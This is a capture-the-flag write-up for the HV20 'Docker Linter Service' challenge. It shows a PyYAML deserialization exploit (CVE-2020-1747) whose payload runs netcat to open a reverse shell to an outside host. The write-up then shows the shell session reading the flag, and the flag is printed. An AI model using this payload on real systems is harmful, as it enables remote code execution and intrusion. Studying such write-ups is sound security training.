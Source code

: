 # Day 19 / HV20.19 Docker Linter Service


## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: The Compiler ([@the_compiler](https://twitter.com/the_compiler), 
                        <https://bruhin.software/>)
* Tags:   #web-security #exploitation
* Level:  hard

Docker Linter is a useful web application ensuring that your Docker-related
files follow best practices. Unfortunately, there's a security issue in there...

### Requirements

This challenge requires a reverse shell. You can use the provided Web Shell or
the VPN to solve this challenge (see `RESOURCES` on top).

### Resources

* Web Shell v. 2
* Docker Linter Service
* Student VPN instructions



## Solution

Here is a screenshot of the _Docker Linter Service_:

![](screenshot_docker_linter.png)

The web service allowed you to upload different kind of docker files in order
to lint them. Posting an arbitrary string like `ladida` instead of an actual
docker file was enough to get a list of the involved tools and libraries:

* `Dockerfile`
    * `hadolint`
    * `dockerfile_lint`
    * `dockerlint.js`

* `docker-compose.yml`
    * `Basic syntax check`
    * `yamllint`
    * `docker-compose`

* `.env files`
    * `dotenv-linter`

After a lot of trial and error attacking the python YAML implementation turned
out to be the right way. There is a [PoC (CVE-2020-1747)]() available about it.

[PoC (CVE-2020-1747)]: https://2130706433.net/blog/pyyaml/

The attack works by exploiting a deserialization vulnerability in the PyYAML
library which allows arbitrary code execution and thus including setting up a
reverse shell.

The payload was constructed according to the [script gist]() available on the same
webpage as the PoC and a [cheat sheet kinda resource for reverse shells]():

[script gist]: https://gist.github.com/adamczi/23a3b6d4bb7b2be35e79b0667d6682e1
[cheat sheet kinda resource for reverse shells]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

```python
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('nc 10.13.0.6 4242 -e /bin/sh')"
```

![](screenshot_payload.png)

On the other end there was a VM connected via a VPN and listening for an
incoming connection on port 4242:

```sh
# nc -l -p 4242
echo ""; ls

app.py
bin
dockerfile_lint_rules
flag.txt
linting.py
node_modules
package-lock.json
requirements.txt
static
templates

cat flag.txt
HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
```

--------------------------------------------------------------------------------

Flag: `HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}`

